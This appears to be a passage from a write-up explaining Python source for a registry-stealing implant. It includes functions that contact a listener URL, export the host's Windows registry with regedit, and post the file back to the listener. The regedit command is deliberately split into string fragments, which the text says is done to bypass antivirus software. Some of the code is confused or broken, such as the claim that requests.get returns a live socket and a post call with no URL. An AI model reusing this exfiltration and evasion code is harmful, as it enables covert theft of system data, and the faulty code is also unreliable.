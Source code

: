```python
def open_shell(url):

  #requests.get returns a live socket 
	client = re.get(url)
	return client
```

The **`get_commands`** function checks if the server connection is active. If it is, the content of the request is decoded and returned.  

```python
#The server socket is passed in.
def get_commands(client):

  #Checks if HTTP Code is OK
	if client.status_code == 200:

    #Content of request is decoded and returned 
		password = client.content.decode('utf-16')
		return password

  
	else:

    #Throws error if HTTP code is not OK 
		print("Error!")
		re.post(b'error')
		return None
```

The **`return_results`** function sends the registry file back to the listener.  

```python
#passes in listener url and file name
def return_results(url, file_name):

  #opens registry file and sends back to listener
	re.post(url=url, data=open(file_name, 'rb'))
```


This function collects the host's registry information into a file, and returns the path to the file. Note, the function is intentionally obfuscated to bypass antivirus software. *Section 6.2*

```python
def two():
  one=' %TE'
  fi='tem'

  #Non-obfuscated command: regedit /e %TEMP% \\ temp.reg
  #regedit collects registry information (/e exports into temp.reg)
  subprocess.call('r'+'ege'+'dit /e'+one+'M'+'P%'+'\\'+fi+'p.reg', shell=True)

  #Stores and returns directory path of temp.reg
  path = os.environ["TEMP"] + "\\"+fi+"p.reg"

  return path
```
